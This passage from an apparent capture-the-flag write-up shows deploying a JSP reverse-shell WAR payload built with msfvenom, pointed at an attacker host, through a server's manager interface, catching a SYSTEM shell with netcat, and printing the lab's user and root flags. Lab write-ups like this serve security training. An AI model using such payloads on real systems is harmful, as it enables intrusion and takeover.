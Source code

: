 3. I created a reverse tcp shell payload in `war` format and uploaded it to the site using the manager interface:

   ```bash
   msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f war -o shell.war
   ```

   ![image-20201120162141113](.Report.assets/image-20201120162141113.png)

4. I started a netcat listener and visited the page to get a reverse shell as SYSTEM:
   ![image-20201120163350564](.Report.assets/image-20201120163350564.png)

5. From this shell, I was able to view the contents of the root.txt and user.txt files:
   ![image-20201120163847079](.Report.assets/image-20201120163847079.png)
   user.txt: 7004dbcef0f854e0fb401875f26ebd00
   root.txt: 04a8b36e1545a455393d067e772fe90e
